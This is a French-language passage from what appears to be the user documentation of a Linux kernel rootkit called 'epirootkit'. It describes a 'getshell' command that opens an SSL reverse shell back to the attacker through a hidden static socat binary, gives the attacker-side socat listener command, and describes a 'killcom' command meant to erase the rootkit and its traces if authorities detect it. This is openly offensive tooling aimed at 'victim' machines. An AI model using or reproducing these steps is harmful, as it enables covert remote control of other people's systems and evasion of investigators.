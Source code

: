 **Description**  
Ouvre un shell inversé (reverse shell) sécurisé sur la machine cible en utilisant une connexion TCP+SSL.

**Paramètres**
- **port** *(optionnel)* : Port de connexion personnalisé
  - **Défaut** : `9001`
  - **Exemple** : `getshell 9042` utilise le port 9042

**Fonctionnement technique**  
Le reverse shell utilise un binaire **socat** compilé statiquement, intégré au module rootkit :

1. **Déploiement** : Le binaire est installé dans `/var/lib/systemd/.epirootkit-hidden-fs/.sysd` lors de l'insertion du module
2. **Connexion** : Établissement d'une connexion TCP+SSL vers l'attaquant sur le port spécifié
3. **Exécution** : L'attaquant peut exécuter des commandes à distance comme s'il était connecté localement
4. **Interactivité** : Shell complètement interactif grâce aux paramètres d'exécution spécifiques du binaire

**Configuration côté attaquant**  
L'attaquant doit avoir une instance socat en écoute avec le certificat SSL correspondant :

```bash
socat openssl-listen:9042,reuseaddr,cert="$(pwd)"/server.pem,verify=0 file:"$(tty)",raw,echo=0
```

**Interface web**  
Dans l'interface web :
- Spécifiez le port dans le champ dédié
- Le serveur socat est lancé automatiquement en arrière-plan en utilisant le terminal **Kitty**
- Cliquez sur le bouton **Launch Shell** pour ouvrir le shell inversé

> **Note** : Le reverse shell est disponible directement depuis l’onglet **Shell** du [Dashboard](#dashboard) de l'interface web.

</details>

<details open>
<summary id="killcom"><b>11. 💀 killcom</b></summary>

**Syntaxe**
```bash
killcom
```

**Description**  
Coupe la communication avec le rootkit et supprime le module via `rmmod`.

**Usage recommandé**
- **Développement et tests** uniquement
- **Production** : Utilisez plutôt `disconnect` pour une déconnexion simple.

**Effet destructeur**  
Cette commande détruit complètement le module, nécessitant une réinstallation sur la machine victime pour le réactiver.

> S'il venait à arriver que le rootkit soit détecté par des outils spécialisés (par exemple par la DGSI ou Laurence C. ), la commande `killcom` peut alors s'avérer d'une grande utilité afin de supprimer toute trace du rootkit et disparaitre tel XDDL.
